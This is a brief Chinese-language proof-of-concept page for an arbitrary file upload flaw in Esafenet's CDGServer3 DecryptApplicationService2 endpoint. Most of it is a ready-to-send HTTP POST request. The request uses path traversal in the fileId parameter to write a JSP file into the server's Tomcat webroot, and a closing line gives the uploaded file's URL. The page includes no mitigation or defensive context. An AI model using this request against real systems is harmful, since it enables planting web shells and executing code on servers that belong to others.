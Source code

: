 ## 亿赛通DecryptApplicationService2接口任意文件上传


## poc
```
POST /CDGServer3/DecryptApplicationService2?fileId=../../../Program+Files+(x86)/ESAFENET/CDocGuard+Server/tomcat64/webapps/CDGServer3/pentest.jsp HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host:  IP：PORT
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: JSESSIONID=B9964151074C71F115A9C803FFF05C34
Upgrade-Insecure-Requests: 1
Content-Length: 11

pentest
```

![351d9a1a384e83606b16d3e456e3e212](../../images/cd8b5019-1f4d-45e1-b89c-68ec7ad6ec74.png)

文件地址：`/CDGServer3/pentest.jsp`
